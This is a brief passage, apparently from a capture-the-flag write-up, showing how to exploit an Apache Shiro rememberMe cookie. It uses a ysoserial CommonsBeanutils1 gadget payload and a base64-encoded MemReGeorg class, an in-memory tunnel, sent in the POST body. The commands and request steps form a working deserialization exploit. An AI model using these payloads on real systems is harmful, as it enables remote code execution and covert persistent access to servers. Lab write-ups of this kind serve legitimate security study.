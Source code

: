 

```
python2 shiro_cookie.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_ClassLoader anything |base64 |sed ':label;N;s/\n//;b label'`
```

![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/login_me/1.png)

编译MemReGeorg.java后使用如下命令得到其字节码的base64

```
cat MemReGeorg.class|base64 |sed ':label;N;s/\n//;b label'
```

![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/login_me/2.png)

在Cookie处填入 rememberMe=[ysoserial生成的POC]，POST包体填入classData=[MemReGeorg类字节码的base64]，注意POST中参数需要URL编码，发包

